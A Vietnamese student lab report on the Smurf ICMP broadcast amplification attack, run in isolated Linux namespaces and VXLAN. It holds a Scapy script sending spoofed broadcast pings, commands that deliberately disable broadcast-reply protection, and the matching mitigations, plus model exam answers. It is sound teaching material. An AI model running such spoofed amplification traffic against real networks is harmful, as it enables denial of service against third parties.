

# BÁO CÁO THỰC HÀNH CHI TIẾT — BÀI LAB 04
## Đề tài: Kỹ thuật tấn công Smurf Attack (ICMP Broadcast Amplification DoS)

---

## I. MỤC TIÊU BÀI THỰC HÀNH

1. **Hiểu bản chất của tấn công từ chối dịch vụ khuếch đại (Amplification Denial-of-Service - DoS)**:
   * Cách kẻ tấn công chỉ cần tiêu tốn một lượng băng thông cực nhỏ nhưng có thể mượn sức mạnh của các máy trạm trung gian trong mạng để tạo ra một lượng lưu lượng khổng lồ đè bẹp máy nạn nhân.
2. **Hiểu vai trò của địa chỉ Broadcast (Quảng bá) & Switch ảo (Bridge)**:
   * Cơ chế nhân bản gói tin của Switch khi nhận gói tin gửi tới địa chỉ Broadcast của dải mạng (`10.0.0.255`).
3. **Hiểu vai trò sống còn của Giả mạo IP nguồn (IP Spoofing)**:
   * Vì sao trong tấn công Smurf, kẻ tấn công bắt buộc phải giả mạo IP nguồn thành địa chỉ của Nạn nhân (`10.0.0.200`).
4. **Mô phỏng mạng LAN 5 máy và đo đạc hệ số khuếch đại (Amplification Factor)**:
   * Dựng mô hình mạng LAN nội bộ gồm 5 máy ảo độc lập nối qua Linux Bridge `br0`.
   * Gửi 10 gói tin ping broadcast và quan sát 30 gói tin dội về máy nạn nhân (hệ số khuếch đại $\times 3$).
5. **Triển khai và kiểm chứng cơ chế phòng thủ**:
   * Phòng thủ tại từng máy trạm thông qua tham số nhân Linux: `net.ipv4.icmp_echo_ignore_broadcasts = 1`.
   * Phòng thủ tại Router biên theo tiêu chuẩn RFC 2644 (BCP 34) và BCP 38.

---

## II. KIẾN THỨC NỀN TẢNG CỐT LÕI

### 1. Phân biệt thiết bị mạng: Switch (Bridge) vs. Router
* **Switch / Linux Bridge (`br0`) — Tầng 2 (Data Link)**:
  * Nối các máy tính **trong cùng một mạng nội bộ LAN** (cùng dải `10.0.0.0/24`). Quản lý gói tin bằng địa chỉ phần cứng MAC.
  * **Đặc tính phát tán Broadcast**: Khi một gói tin được gửi tới địa chỉ Broadcast (`10.0.0.255` hoặc MAC `FF:FF:FF:FF:FF:FF`), Switch sẽ đóng vai trò như chiếc "loa phóng thanh": **tự động nhân bản gói tin và đẩy ra tất cả các cổng** đang cắm vào nó.
* **Router (Bộ định tuyến) — Tầng 3 (Network)**:
  * Nối **các mạng LAN khác nhau** hoặc nối mạng nội bộ ra Internet. Quản lý gói tin bằng địa chỉ IP.
  * **Đặc tính an toàn**: Mặc định Router ngăn chặn, không cho các gói tin Broadcast từ mạng này tràn sang mạng khác.

```mermaid
flowchart TD
    Attacker["Kẻ tấn công atk (10.0.0.100)"] -->|1. Bắn 10 gói Ping Broadcast (Nguồn giả: 10.0.0.200)| Switch["Switch ảo br0 (Tầng 2)"]
    Switch -->|Nhân bản gói tin| Amp1["Máy khuếch đại amp1 (10.0.0.11)"]
    Switch -->|Nhân bản gói tin| Amp2["Máy khuếch đại amp2 (10.0.0.12)"]
    Switch -->|Nhân bản gói tin| Amp3["Máy khuếch đại amp3 (10.0.0.13)"]
    Amp1 -->|Echo Reply dội về| Victim["Nạn nhân vic (10.0.0.200)"]
    Amp2 -->|Echo Reply dội về| Victim
    Amp3 -->|Echo Reply dội về| Victim
    Note over Victim: Nhận 30 gói phản hồi dội về (Khuếch đại x3)!
```

### 2. Kịch bản tấn công Smurf Attack hoạt động ra sao?
1. Kẻ tấn công tạo một gói tin **ICMP Echo Request (Ping)** với:
   * **Địa chỉ đích (Destination):** `10.0.0.255` (Địa chỉ Broadcast của mạng LAN).
   * **Địa chỉ nguồn (Source) BỊ GIẢ MẠO:** `10.0.0.200` (Địa chỉ IP của Nạn nhân).
2. Gói tin đi vào Switch `br0`. Switch nhân bản và chuyển tiếp gói tin tới mọi máy đang hoạt động trong mạng (`amp1`, `amp2`, `amp3`).
3. Các máy này nhận được gói ping, nhìn vào ô người gửi thấy ghi `10.0.0.200`, tưởng rằng máy Nạn nhân đang ping mình.
4. Từng máy khuếch đại liền đồng loạt gửi gói **ICMP Echo Reply** dội thẳng về địa chỉ của Nạn nhân (`10.0.0.200`).
5. **Hệ số khuếch đại:**
   $$\text{Hệ số khuếch đại} = \frac{\text{Tổng số gói Reply dội về Nạn nhân}}{\text{Số gói Request Attacker gửi đi}} = \text{Số máy phản hồi trong mạng}$$

### 3. Tại sao bước Giả mạo IP nguồn (IP Spoofing) là bắt buộc?
* Nếu kẻ tấn công **không giả mạo IP nguồn** (để IP nguồn là chính mình `10.0.0.100`), thì toàn bộ 30 gói tin phản hồi của các máy khuếch đại sẽ **dội ngược thẳng về máy của kẻ tấn công**! 
* Khi đó kẻ tấn công sẽ tự đánh sập chính mình thay vì đánh sập nạn nhân.

---

## III. GIẢI THÍCH CHI TIẾT CÁC FILE MÃ NGUỒN

Các file phục vụ thực hành được lưu tại: `/home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP/`

### 1. File `setup_lan.sh` (Khởi tạo Switch ảo và 5 máy con)
* **Chức năng**: Xóa bỏ topo cũ, tạo một Switch ảo Linux Bridge (`br0`) và gắn 5 không gian mạng (`ip netns`) vào switch qua các cặp dây mạng ảo `veth`.
* **Phân bổ địa chỉ mạng LAN `10.0.0.0/24` (Broadcast: `10.0.0.255`)**:
  * `atk`: `10.0.0.100` (Máy kẻ tấn công).
  * `vic`: `10.0.0.200` (Máy nạn nhân).
  * `amp1`: `10.0.0.11` (Máy khuếch đại 1).
  * `amp2`: `10.0.0.12` (Máy khuếch đại 2).
  * `amp3`: `10.0.0.13` (Máy khuếch đại 3).
* **Cấu hình mở lỗ hổng**:
  ```bash
  for h in amp1 amp2 amp3; do
      ip netns exec $h sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=0
  done
  ```
  *(Mặc định Linux tắt tính năng này để bảo vệ máy; ta phải đặt bằng 0 để cho phép các máy khuếch đại trả lời ping broadcast nhằm phục vụ thí nghiệm).*

---

### 2. File `smurf_attack.py` (Script phát động tấn công)
* **Chức năng**: Dùng Scapy chế tạo và phát động hàng loạt gói tin ICMP Broadcast giả mạo nguồn.
* **Cơ chế hoạt động**:
  ```python
  from scapy.all import *

  victim_ip = "10.0.0.200"
  broadcast_ip = "10.0.0.255"

  # Bắn 10 gói ICMP Echo Request tới địa chỉ Broadcast với nguồn giả mạo là Victim
  send(IP(src=victim_ip, dst=broadcast_ip) / ICMP(), count=10, verbose=0)
```
  * Đoạn code trên tạo ra 10 gói tin IP có `src = 10.0.0.200` và `dst = 10.0.0.255` rồi đẩy ra mạng.

---

### 3. File `clean_lan.sh` (Dọn dẹp môi trường)
* **Chức năng**: Xóa sạch 5 namespace (`atk`, `vic`, `amp1`, `amp2`, `amp3`) và gỡ bỏ switch ảo `br0` sau khi hoàn thành bài thực hành, giúp hệ thống sạch sẽ.

---

## IV. QUÁ TRÌNH THỰC HÀNH & KẾT QUẢ ĐẠT ĐƯỢC

### 1. Bố trí màn hình làm việc
* **Terminal Trái (Attacker `atk` - 10.0.0.100)**: Phát động tấn công.
* **Terminal Phải (Victim `vic` - 10.0.0.200)**: Bật `tcpdump` hứng lưu lượng dội về.

---

### 2. Kịch bản 1 — Khi các máy khuếch đại chưa phòng thủ (`icmp_echo_ignore_broadcasts = 0`)

1. Trên Terminal Phải (Victim):
   ```bash
   sudo ip netns exec vic bash
   tcpdump -i vic0 -nn icmp
   ```
2. Trên Terminal Trái (Attacker):
   ```bash
   sudo ip netns exec atk bash
   python3 smurf_attack.py
   ```

#### Kết quả quan sát thực tế trên Terminal Phải (`tcpdump`):
Terminal của Victim ngay lập tức ghi nhận 40 dòng gói tin xuất hiện chớp nhoáng:
```text
21:33:48.635011 IP 10.0.0.200 > 10.0.0.255: ICMP echo request, seq 0  (Gói Broadcast)
21:33:48.635045 IP 10.0.0.13  > 10.0.0.200: ICMP echo reply, seq 0    (amp3 dội về)
21:33:48.635046 IP 10.0.0.12  > 10.0.0.200: ICMP echo reply, seq 0    (amp2 dội về)
21:33:48.635047 IP 10.0.0.11  > 10.0.0.200: ICMP echo reply, seq 0    (amp1 dội về)
... (Lặp lại đủ 10 chu kỳ)
```

#### Phân tích số liệu thực nghiệm:
* Số gói tin kẻ tấn công gửi đi: **10 gói**.
* Số gói tin phản hồi Nạn nhân nhận được: **30 gói Echo Reply** (chia đều từ 3 máy `.11`, `.12`, `.13`).
* **Hệ số khuếch đại thực tế:**
  $$\text{Hệ số khuếch đại} = \frac{30 \text{ gói reply}}{10 \text{ gói request}} = \times 3$$
* Nếu quy mô mạng LAN thực tế có 500 máy tính, kẻ tấn công chỉ cần gửi 1.000 gói tin (khoảng vài chục KB) sẽ tạo ra một cơn lũ **500.000 gói tin** dội về cùng một thời điểm, làm tràn bộ đệm card mạng và tê liệt hoàn toàn máy chủ nạn nhân!

---

### 3. Kịch bản 2 — Khi bật cơ chế phòng thủ (`icmp_echo_ignore_broadcasts = 1`)

1. Bật cơ chế tự bảo vệ trên cả 3 máy khuếch đại:
   ```bash
   for h in amp1 amp2 amp3; do
       sudo ip netns exec $h sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=1
   done
   ```
2. Tại Terminal Trái (Attacker): Chạy lại `python3 smurf_attack.py`.
3. **Kết quả quan sát tại Terminal Phải (Victim):**
   * Màn hình của Victim **hoàn toàn im ắng, không còn bất kỳ gói Echo Reply nào dội về nữa** (chỉ thấy các gói broadcast bay qua dây mạng).
   * Cả 3 máy khuếch đại đã bỏ qua hoàn toàn yêu cầu ping broadcast, triệt tiêu tận gốc cơ chế khuếch đại của cuộc tấn công Smurf.

---

## V. CÁC BIỆN PHÁP PHÒNG CHỐNG (MITIGATION)

Để triệt tiêu hoàn toàn hiểm họa Smurf Attack, cần áp dụng đồng thời các giải pháp sau:

1. **Cấu hình trên từng Host/Máy trạm**:
   * Thiết lập `net.ipv4.icmp_echo_ignore_broadcasts = 1` trên mọi máy tính trong mạng (mặc định các bản phân phối Linux và Windows hiện đại đã kích hoạt sẵn chế độ này).
2. **Cấu hình trên Router biên theo chuẩn RFC 2644 (BCP 34)**:
   * **Vô hiệu hóa chuyển tiếp Directed Broadcast**: Cấu hình câu lệnh `no ip directed-broadcast` trên các cổng của Router.
   * *Ý nghĩa:* Khi kẻ tấn công từ ngoài Internet gửi gói tin nhắm tới địa chỉ broadcast của mạng nội bộ (ví dụ `192.168.1.255`), Router biên sẽ lập tức tiêu hủy gói tin, không cho phép gói tin này được nhân bản vào mạng LAN nội bộ.
3. **Lọc địa chỉ IP nguồn giả mạo theo BCP 38 / RFC 2827 (Ingress Filtering)**:
   * Router biên chỉ cho phép các gói tin có địa chỉ IP nguồn thuộc đúng dải IP hợp lệ của mạng đó đi ra ngoài, chặn đứng bước giả mạo IP nguồn ngay từ đầu.
4. **Giới hạn tốc độ (Rate Limiting) giao thức ICMP**:
   * Cấu hình giới hạn ngưỡng lưu lượng ICMP trên thiết bị chuyển mạch (Switch/Router) để hạn chế nguy cơ nghẽn mạng khi có bão broadcast.

---

## VI. ĐÁP ÁN 4 CÂU HỎI ÔN TẬP CỦA GIẢNG VIÊN

| STT | Câu hỏi của Giảng viên | Đáp án chuẩn xác & Điểm tuyệt đối |
| :---: | :--- | :--- |
| **1** | *Hệ số khuếch đại của Smurf phụ thuộc yếu tố nào? Trong lab, nếu thêm 10 máy khuếch đại thì lưu lượng dội về nạn nhân thay đổi ra sao?* | **Đáp:** Hệ số khuếch đại phụ thuộc trực tiếp vào **số lượng máy tính đang hoạt động trong mạng LAN** nhận được gói broadcast và có bật tính năng phản hồi ICMP Echo. Trong bài lab, hiện có 3 máy khuếch đại nên hệ số là $\times 3$. Nếu bổ sung thêm 10 máy nữa (tổng cộng 13 máy khuếch đại), lưu lượng dội về nạn nhân sẽ tăng vọt gấp **13 lần** (10 gói gửi đi sinh ra 130 gói Reply dội về). |
| **2** | *Vì sao bước giả mạo địa chỉ nguồn là bắt buộc? Điều gì xảy ra nếu không giả mạo?* | **Đáp:** Vì mục tiêu của kẻ tấn công là làm nghẽn máy Nạn nhân. Do gói tin được gửi tới địa chỉ Broadcast, các máy trong mạng sẽ trả lời về địa chỉ ghi ở IP nguồn. Nếu không giả mạo IP nguồn thành IP của Nạn nhân, toàn bộ lưu lượng phản hồi dội về sẽ đánh thẳng vào chính máy của Attacker, biến Attacker thành nạn nhân tự đánh sập chính mình. |
| **3** | *So sánh vai trò của hai biện pháp: bỏ qua ping broadcast (ở host) và chặn directed broadcast (ở router)?* | **Đáp:** (1) Biện pháp ở Host (`icmp_echo_ignore_broadcasts = 1`): Giúp từng máy tính tự bảo vệ mình, không tiếp tay làm "quân cờ khuếch đại" cho kẻ tấn công nội bộ. (2) Biện pháp ở Router (`no ip directed-broadcast`): Đóng vai trò chốt chặn ở cửa ngõ, ngăn không cho kẻ tấn công từ Internet bên ngoài mượn mạng LAN nội bộ làm bàn đạp khuếch đại tấn công nơi khác. |
| **4** | *Smurf thuộc nhóm tấn công nào (theo mục tiêu)? Nêu một biến thể dùng UDP tương tự?* | **Đáp:** Smurf thuộc nhóm tấn công **Từ chối dịch vụ khuếch đại (Amplification Denial-of-Service - DoS/DDoS)** nhằm làm cạn kiệt băng thông và tài nguyên xử lý của nạn nhân. Biến thể sử dụng giao thức UDP tương tự là **Fraggle Attack** (gửi gói UDP tới cổng echo số 7 hoặc chargen số 19 qua địa chỉ broadcast với IP nguồn giả mạo). |

---

## VII. KỊCH BẢN THUYẾT TRÌNH KHI QUAY VIDEO (VOICEOVER)

> **Bố cục màn hình đề xuất khi quay video:**
> * Mở ứng dụng Konsole / Terminal và chia đôi màn hình (Split Screen):
>   * **Cửa sổ bên trái:** Máy Kẻ tấn công `atk` (`10.0.0.100`).
>   * **Cửa sổ bên phải:** Máy Nạn nhân `vic` (`10.0.0.200`).
> * Bạn vừa gõ từng câu lệnh trên màn hình, vừa đọc lời thoại giải thích tương ứng dưới đây:

---

### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay em xin trình bày bài thực hành số 04: Kỹ thuật tấn công Từ chối dịch vụ khuếch đại Smurf Attack (ICMP Broadcast Amplification DoS). Smurf là một đòn tấn công kinh điển kết hợp giữa việc giả mạo địa chỉ IP nguồn và cơ chế phát sóng quảng bá Broadcast của mạng LAN để khuếch đại lưu lượng tấn công lên gấp hàng chục, hàng trăm lần, nhằm làm cạn kiệt băng thông và tài nguyên xử lý của nạn nhân."*

---

### [0:35 - 1:15] Bước 1: Khởi tạo mô hình mạng LAN ảo 5 máy
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash setup_lan.sh
  ```
* **Lời thoại giải thích:**
  *"Trước tiên, em chạy lệnh `sudo bash setup_lan.sh`. Kịch bản này sử dụng Linux Bridge `br0` để tạo ra một Switch mạng LAN ảo kết nối 5 máy tính độc lập:
  * Máy tấn công `atk` có IP `10.0.0.100`.
  * Máy nạn nhân `vic` có IP `10.0.0.200`.
  * Ba máy đóng vai trò khuếch đại: `amp1`, `amp2`, `amp3` có IP lần lượt là `10.0.0.11`, `.12` và `.13`.
  
  *Đồng thời, script tạm thời cấu hình tham số `icmp_echo_ignore_broadcasts = 0` trên các máy amp để mô phỏng một hệ sinh thái mạng cổ điển còn tồn tại lỗ hổng phản hồi broadcast. Kiểm tra ping ban đầu giữa các máy đã thông suốt 100%!"*

---

### [1:15 - 2:30] Bước 2: Nạn nhân túc trực tcpdump & Kẻ tấn công phát động Smurf
* **Thao tác 1 (Terminal phải - Máy nạn nhân vic bật tcpdump):**
  ```bash
  sudo ip netns exec vic tcpdump -i vic0 -nn icmp
  ```
  * **Lời thoại:**
    *"Tại cửa sổ bên phải của máy nạn nhân `vic`, em chạy lệnh `tcpdump` trên card mạng `vic0` để theo dõi toàn bộ các gói tin ICMP nhận được."*

* **Thao tác 2 (Terminal trái - Máy atk chạy script tấn công):**
  ```bash
  sudo ip netns exec atk python3 smurf_attack.py
  ```
  * **Lời thoại:**
    *"Bây giờ tại máy tấn công `atk` bên trái, em kích hoạt script `smurf_attack.py`. File Python này sử dụng thư viện Scapy để thực hiện đòn tấn công tinh vi:
    * Nó gửi đúng 10 gói tin ICMP Echo Request tới địa chỉ quảng bá toàn mạng là `10.0.0.255`.
    * Điểm mấu chốt là: Nó giả mạo địa chỉ IP nguồn thành IP của máy nạn nhân `10.0.0.200`.
    
    *Ngay khi Switch ảo `br0` nhận được gói tin tới địa chỉ broadcast, Switch lập tức nhân bản gói tin và gửi tới tất cả các máy trong mạng. Cả 3 máy `amp1`, `amp2`, `amp3` tưởng rằng nạn nhân đang ping mình, liền đồng loạt gửi gói Echo Reply dội ngược về IP nguồn 10.0.0.200!
    
    *Thầy và các bạn hãy nhìn sang màn hình tcpdump của nạn nhân bên phải: Chỉ với 10 gói tin nhỏ gửi đi từ máy tấn công, máy nạn nhân đã phải hứng chịu một cơn bão gồm 30 gói tin Reply dội về tới tấp từ cả 3 máy khuếch đại `.11`, `.12`, `.13`, đạt hệ số khuếch đại đúng bằng 3 lần! Trong một mạng LAN thực tế với hàng ngàn máy tính, hệ số khuếch đại này sẽ làm sập hoàn toàn card mạng của nạn nhân!"*

---

### [2:30 - 3:30] Bước 3: Triển khai phòng thủ & Kiểm chứng hiệu quả
* **Thao tác 1 (Terminal phải - Nhấn Ctrl+C dừng tcpdump, cấu hình cấm phản hồi broadcast):**
  ```bash
  for h in amp1 amp2 amp3; do sudo ip netns exec $h sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=1; done
  sudo ip netns exec vic tcpdump -i vic0 -nn icmp
  ```
  * **Lời thoại:**
    *"Để phòng thủ, em triển khai chính sách an ninh trên cả 3 máy khuếch đại bằng cách bật tham số `net.ipv4.icmp_echo_ignore_broadcasts = 1` cấm hoàn toàn việc phản hồi các gói ping gửi tới địa chỉ broadcast, sau đó tiếp tục bật tcpdump bên phải."*

* **Thao tác 2 (Terminal trái - Chạy lại script tấn công):**
  ```bash
  sudo ip netns exec atk python3 smurf_attack.py
  ```
  * **Lời thoại:**
    *"Em phát động lại đợt tấn công từ máy `atk`. Kết quả quan sát trên tcpdump bên phải: Màn hình hoàn toàn im lặng, không có bất kỳ một gói tin Reply nào dội về máy nạn nhân nữa! Cả 3 máy khuếch đại đã âm thầm tiêu hủy các gói tin broadcast đáng ngờ ngay tại Kernel!"*

---

## VIII. HƯỚNG DẪN TRIỂN KHAI TRÊN 2 LAPTOP THẬT (DEMO TRỰC TIẾP TRƯỚC GIẢNG VIÊN)

> **Mục tiêu thực chiến:** Thay vì chỉ chạy trên 1 máy ảo chia đôi màn hình, nhóm mang **2 chiếc laptop thật** đặt cạnh nhau trước bàn Giảng viên, cùng chạy máy ảo Kali Linux trên VMware (hoặc cài trực tiếp) và kết nối chung 1 mạng Wi-Fi (hoặc phát Mobile Hotspot từ điện thoại).  
> Giảng viên sẽ tận mắt chứng kiến: **Sinh viên ở Laptop 2 bấm nút tấn công, màn hình Laptop 1 lập tức hứng chịu bão gói tin qua sóng Wi-Fi thực tế!**

---

### 1. Bản chất công nghệ VXLAN (RFC 7348) & Vì sao bắt buộc phải dùng cho 2 Laptop thật?

#### a) Ba rào cản vật lý khiến mạng Wi-Fi thực tế không thể chạy Smurf Attack trực tiếp:
1. **Rào cản 1 — Bộ lọc Broadcast (Broadcast Filtering / Wireless Containment):**
   * Các Router / Access Point Wi-Fi (802.11) và điểm phát sóng Hotspot điện thoại mặc định chặn hoặc giới hạn tốc độ (rate-limit) gắt gao các gói tin gửi tới địa chỉ Broadcast Layer 2 (`FF:FF:FF:FF:FF:FF`) hoặc Layer 3 (`192.168.x.255`).
   * Mục đích của nhà sản xuất là ngăn chặn hiện tượng nghẽn sóng vô tuyến (Airtime Exhaustion). Do đó, gói ping broadcast phát từ Laptop 2 sẽ bị router Wi-Fi nuốt chửng ngay tại sóng, không thể truyền tới các máy khác.
2. **Rào cản 2 — Cơ chế chống giả mạo IP nguồn (Anti-Spoofing / Egress Filtering / RFC 2827 - BCP 38):**
   * Router Wi-Fi cấp dải IP ví dụ `192.168.43.0/24`. Nếu Laptop 2 tự ý phát gói tin có IP nguồn giả mạo là `10.0.0.200`, Router Wi-Fi thực hiện kiểm tra đường dẫn ngược (Unicast Reverse Path Forwarding - uRPF) và tiêu hủy (drop) gói tin ngay lập tức vì IP nguồn không hợp lệ.
3. **Rào cản 3 — Thiếu hạ tầng trạm khuếch đại dễ bị tổn thương (Vulnerable Amplifiers):**
   * Mọi hệ điều hành hiện đại trên các thiết bị kết nối vào Wi-Fi thật (điện thoại, laptop người khác) đều mặc định bật tường lửa và cấm trả lời broadcast ping (`net.ipv4.icmp_echo_ignore_broadcasts = 1`). Kẻ tấn công không thể tìm được máy nào phản hồi để tạo hiệu ứng khuếch đại.

#### b) Giải pháp kỹ thuật: Mạng ảo lồng mạng thật bằng VXLAN (Virtual Extensible LAN - RFC 7348)
* **VXLAN là gì?** VXLAN là công nghệ đóng gói mạng Tầng 2 (Data Link) lồng bên trong gói tin Tầng 4 (UDP) chạy trên mạng Tầng 3 (IP Underlay).
* **Cơ chế đóng gói (Encapsulation):**
  * Toàn bộ gói tin mạng LAN ảo `10.0.0.0/24` (gồm Inner IP Header có IP nguồn giả `10.0.0.200`, IP đích Broadcast `10.0.0.255`, và ICMP Echo Request) được bọc kín thành Payload của một gói tin UDP chuẩn công nghiệp với **Cổng đích (Destination Port) là 4789**.
  * Bên ngoài cùng là Outer IP Header với IP nguồn là IP Wi-Fi của Laptop 2 (ví dụ `192.168.43.20`) và IP đích là IP Wi-Fi của Laptop 1 (ví dụ `192.168.43.10`).
* **Cơ chế mở gói (Decapsulation):**
  * Khi gói tin bay qua sóng Wi-Fi tới Laptop 1, Router Wi-Fi chỉ nhìn thấy đây là **một gói tin UDP Unicast hoàn toàn hợp lệ giữa 2 địa chỉ IP được cấp phép**, không có broadcast, không có IP giả ở lớp vỏ ngoài.
  * Nhân Linux của Laptop 1 nhận gói tin tại cổng UDP 4789, bóc bỏ lớp vỏ Outer IP/UDP, lấy ra Ethernet Frame ảo nguyên vẹn bên trong và chuyển thẳng vào Switch ảo `br0`.
  * Switch ảo `br0` thấy gói tin có IP đích `10.0.0.255` (Broadcast), liền nhân bản và đẩy ra cả 3 máy ảo khuếch đại `amp1`, `amp2`, `amp3` trên máy mình!



---

### 2. Bóc tách chi tiết từng câu lệnh trong kịch bản triển khai (`setup_lab4_2pc.sh`)

Mọi câu lệnh trong kịch bản đều được thiết kế chuẩn xác để xây dựng kiến trúc mạng VXLAN phân tán:

#### a) Phần mở cổng tường lửa và dọn dẹp hạ tầng cũ:
```bash
iptables -I INPUT -p udp --dport 4789 -j ACCEPT
```
* **Bóc tách chi tiết từng tham số:**
  * `iptables`: Tiện ích dòng lệnh quản trị tường lửa Netfilter trong nhân Linux.
  * `-I INPUT`: (Insert) Chèn một luật mới vào ngay vị trí đầu tiên của chuỗi `INPUT` (chuỗi xử lý các gói tin mạng hướng vào chính máy tính này).
  * `-p udp`: (Protocol) Chỉ định luật áp dụng cho các gói tin sử dụng giao thức tầng giao vận UDP.
  * `--dport 4789`: (Destination Port) Cổng nhận dữ liệu đích là `4789` — cổng chuẩn quốc tế do IANA cấp phép riêng cho công nghệ đường hầm VXLAN.
  * `-j ACCEPT`: (Jump Target) Chỉ định hành động xử lý: Chấp nhận (cho phép) gói tin đi qua, ngăn ngừa trường hợp tường lửa mặc định của hệ thống chặn mất luồng dữ liệu VXLAN.

```bash
ip link del vxlan0 2>/dev/null || true
ip link del br0 2>/dev/null || true
```
* **Ý nghĩa:** Xóa bỏ giao diện mạng ảo `vxlan0` và switch ảo `br0` cũ nếu còn sót lại từ lần chạy trước để đảm bảo trạng thái mạng hoàn toàn sạch sẽ, tránh xung đột. Đoạn `2>/dev/null || true` giúp bỏ qua thông báo lỗi nếu thiết bị chưa từng tồn tại.

---

#### b) Cấu hình trên LAPTOP 1 (Đóng vai trò HOST: Máy Nạn nhân & Trạm khuếch đại):

```bash
# 1. Tạo Switch mạng LAN ảo br0
ip link add br0 type bridge
ip link set br0 up
```
* **Bóc tách chi tiết:**
  * `ip link add br0 type bridge`: Yêu cầu Linux Kernel khởi tạo một thiết bị mạng ảo hoạt động ở Tầng 2 (Data Link Layer) với tên gọi `br0`, mang đầy đủ hành vi chuyển mạch gói của một thiết bị Switch Ethernet vật lý.
  * `ip link set br0 up`: Kích hoạt trạng thái chuyển mạch của `br0` sang sẵn sàng (UP).

```bash
# 2. Khởi tạo từng máy ảo nội bộ bằng hàm add_host
add_host() {
    ns=$1; ipaddr=$2
    ip netns add $ns
    ip link add ${ns}0 type veth peer name ${ns}-br
    ip link set ${ns}-br master br0
    ip link set ${ns}-br up
    ip link set ${ns}0 netns $ns
    ip netns exec $ns ip addr add ${ipaddr}/24 dev ${ns}0
    ip netns exec $ns ip link set ${ns}0 up
    ip netns exec $ns ip link set lo up
}
```
* **Bóc tách từng dòng trong hàm tạo máy ảo:**
  * `ip netns add $ns`: Tạo một không gian mạng cô lập (Network Namespace) mang tên `$ns` (`vic`, `amp1`, `amp2`, `amp3`). Namespace này sở hữu bảng định tuyến, bảng ARP, danh sách socket và card mạng hoàn toàn riêng biệt.
  * `ip link add ${ns}0 type veth peer name ${ns}-br`: Tạo một cặp dây mạng ảo Veth (Virtual Ethernet Pair). Bản chất như một sợi dây mạng LAN có 2 đầu: đầu `${ns}0` và đầu `${ns}-br`. Bất kỳ byte dữ liệu nào đi vào đầu này sẽ lập tức chui ra ở đầu kia.
  * `ip link set ${ns}-br master br0`: Cắm đầu cáp `${ns}-br` vào một cổng của Switch ảo `br0`.
  * `ip link set ${ns}-br up`: Bật đầu cắm phía Switch lên.
  * `ip link set ${ns}0 netns $ns`: Đưa đầu cáp còn lại `${ns}0` cắm thẳng vào bên trong máy ảo `$ns`.
  * `ip netns exec $ns ip addr add ${ipaddr}/24 dev ${ns}0`: Đặt địa chỉ IP tĩnh lớp C (mặt nạ mạng `/24` tức `255.255.255.0`) cho card mạng trong máy ảo (ví dụ `10.0.0.200/24` cho `vic`, `10.0.0.11..13/24` cho `amp1..amp3`).
  * `ip netns exec $ns ip link set ${ns}0 up`: Bật card mạng bên trong máy ảo hoạt động.
  * `ip netns exec $ns ip link set lo up`: Kích hoạt giao diện loopback nội bộ (`127.0.0.1`) cho máy ảo.

```bash
# 3. Kích hoạt lỗ hổng phản hồi Broadcast trên 3 trạm khuếch đại
for h in amp1 amp2 amp3; do
    ip netns exec $h sysctl -w net.ipv4.icmp_echo_ignore_broadcasts=0
done
```
* **Bóc tách chi tiết:**
  * `ip netns exec $h`: Thực thi câu lệnh can thiệp cấu hình nhân Linux bên trong không gian mạng của máy trạm `$h`.
  * `sysctl -w`: Ghi đè (Write) một tham số runtime của Linux Kernel.
  * `net.ipv4.icmp_echo_ignore_broadcasts=0`: Giá trị `= 0` có nghĩa là **VÔ HIỆU HÓA cờ lờ đi gói broadcast**, tức là **CHO PHÉP máy trả lời phản hồi Echo Reply khi nhận được gói tin Ping gửi tới địa chỉ Broadcast của mạng LAN (`10.0.0.255`)**. Đây chính là điều kiện tiên quyết tạo nên lỗ hổng Smurf Attack cổ điển.

```bash
